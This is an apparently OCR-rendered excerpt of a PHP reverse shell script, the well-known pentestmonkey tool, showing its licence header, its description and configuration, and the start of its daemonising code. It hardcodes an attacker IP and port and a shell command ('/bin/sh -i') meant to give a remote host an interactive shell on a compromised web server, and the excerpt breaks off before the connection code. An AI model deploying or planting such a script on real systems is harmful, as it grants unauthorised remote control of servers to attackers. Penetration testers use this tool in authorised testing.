 ```
// This program is distributed in the hope that it will be useful,
// but WITHOUT ANY WARRANTY; without even the implied warranty of
// MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
// GNU General Public License for more details.
//
// You should have received a copy of the GNU General Public License along
// with this program; if not, write to the Free Software Foundation, Inc.,
// 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  If these terms are not acceptable to
// you, then do not use this tool.
//
// You are encouraged to send comments, improvements or suggestions to
// me at pentestmonkey@pentestmonkey.net
//
// Description
// -----------
// This script will make an outbound TCP connection to a hardcoded IP and port.
// The recipient will be given a shell running as the current user (apache normally).
//
// Limitations
// -----------
// proc_open and stream_set_blocking require PHP version 4.3+, or 5+
// Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
// Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.
//
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '192.168.1.3';  // CHANGE THIS
$port = 283;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
        // Fork and have the parent process exit
        $pid = pcntl_fork();

        if ($pid == -1) {
                printit("ERROR: Can't fork");
                exit(1);
        }

        if ($pid) {
                exit(0);  // Parent exits
        }

```